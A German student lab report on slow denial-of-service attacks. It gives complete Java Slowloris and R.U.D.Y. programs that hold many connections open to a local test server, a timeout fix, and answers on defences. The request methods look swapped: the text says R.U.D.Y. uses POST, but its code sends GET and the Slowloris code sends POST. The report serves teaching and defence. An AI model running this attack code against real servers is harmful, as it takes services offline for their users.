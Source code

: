 ```yaml
---
title: Slow DDoS-Angriffe 
author: Paul Nykiel
date: \today
---
```


# Webserver
Die `SimpleHTTPServer` Klasse wurde folgendermaßen angepasst:
```java
public static void main (String[] args) throws IOException {
    ExecutorService executorService = Executors.newFixedThreadPool(threadPoolSize);

    ServerSocket serverSocket = new ServerSocket(port);
    while (true) {
        Socket clientSocket = serverSocket.accept();

        executorService.submit(new ConnectionThread(clientSocket));

        System.out.println("Connection from " + clientSocket.getRemoteSocketAddress()
                + "; Active Connections: " + ConnectionThread.activeConnections.get());
    }
}
```

# Slow Loris
Die gesamte Slow-Loris Implementierung (Aufgabe 2 und 4) sieht folgendermaßen aus:
```java
package assignment.attacks;

import java.io.IOException;
import java.net.Socket;
import java.util.ArrayList;
import java.util.List;
import java.util.Random;
import java.util.concurrent.ThreadLocalRandom;

public class Slowloris {
    static String host = "127.0.0.1";
    static int port = 12345;
    static int threads;

    static List<Socket> socketList;

    public static void main(String[] args) throws InterruptedException, IOException {
        // Not with executor to save resources on attacker side
        socketList = new ArrayList<>();

        for (int c=0; c<15; ++c) {
            openSocket();
        }

        while (true) {
            Thread.sleep(8000);
            for (var socket : socketList) {
                sendLine(socket);
            }
        }
    }

    private static void openSocket() throws IOException {
        Socket socket = new Socket(host, port);
        var ostream = socket.getOutputStream();

        String header = "POST / HTTP/1.1";

        ostream.write(header.getBytes());

        socketList.add(socket);
    }

    private static void sendLine(Socket socket) throws IOException {
        var ostream = socket.getOutputStream();

        StringBuilder field = new StringBuilder();
        for (int c=0; c<8; ++c) {
            byte asciiVal = (byte) (ThreadLocalRandom.current().nextInt(46) + 'A');
            if (asciiVal > 'Z') {
                asciiVal = (byte) (asciiVal - 'A' - 26 + 'a');
            }
            field.append((char) asciiVal);
        }

        String line = "\r\nX-" + field.toString() + ": " + ThreadLocalRandom.current().nextInt(10000);
        System.out.print(line);

        ostream.write(line.getBytes());
    }
}
```

# WebServer-Timeouts
Für Timeouts (hier 10 Sekunden) wurde folgende Zeile am begin der `run`-Methode des `ConnectionThread` ergänzt:
```java
clientSocket.setSoTimeout(10000);
```


# R.U.D.Y
Die R.U.D.Y Implementierung ist quasi identisch zu Slow-Lorris, nur mit Post-Requests:
```java
package assignment.attacks;

import java.io.IOException;
import java.net.Socket;
import java.util.ArrayList;
import java.util.List;
import java.util.concurrent.ThreadLocalRandom;

public class RuDY {

    static String host = "127.0.0.1";
    static int port = 12345;
    static int threads;

    static List<Socket> socketList;

    public static void main(String[] args) throws IOException, InterruptedException {
        // Not with executor to save resources on attacker side
        socketList = new ArrayList<>();

        for (int c=0; c<15; ++c) {
            openSocket();
        }

        while (true) {
            Thread.sleep(8000);
            for (var socket : socketList) {
                sendLine(socket);
            }
        }
    }

    private static void openSocket() throws IOException {
        Socket socket = new Socket(host, port);

        var ostream = socket.getOutputStream();

        String header = "GET / HTTP/1.1";

        ostream.write(header.getBytes());

        socketList.add(socket);
    }

    private static void sendLine(Socket socket) throws IOException {
        var ostream = socket.getOutputStream();

        StringBuilder field = new StringBuilder();
        for (int c=0; c<8; ++c) {
            byte asciiVal = (byte) (ThreadLocalRandom.current().nextInt(46) + 'A');
            if (asciiVal > 'Z') {
                asciiVal = (byte) (asciiVal - 'A' - 26 + 'a');
            }
            field.append((char) asciiVal);
        }

        String line = "\r\nX-" + field.toString() + ": " + ThreadLocalRandom.current().nextInt(10000);
        System.out.print(line);

        ostream.write(line.getBytes());
    }
}
```

# Fragen
 * Es handelt es sich um eine Apache ähnliche Architektur, da für jede Verbindung ein neuer Thread aufgemacht wird,
    dadurch wird der Server anfällig für Slow DDoS Angriffe.
 * Manche Endgeräte (vor allem mobile Geräte mit schlechter Internetanbindung) senden im regulären Betrieb bereits
    nur sehr langsam Daten und könnten so fälschlicherweise als Angreifer klassifiziert und damit ausgeschlossen
    werden.
 * Nein, so kann der Server nur noch weiter überlastet werden. Die Kosten für weitere Verbindungen sind für den Server
    im Vergleich zum Angreifer deutlich größer.
 * Ansätze:
   * Bessere Serverarchitektur: nicht für jeden Client eine eigene Verbindung (vgl. Nginx)
   * Semantische Nachrichtenanalyse: Kontroller ob Empfangene Nachrichten (-Teile) sinnvoll sind
   * Minimale Übertragungsraten (muss natürlich entsprechend gewählt werden, so dass valide Clients weiter zugreifen
        können).

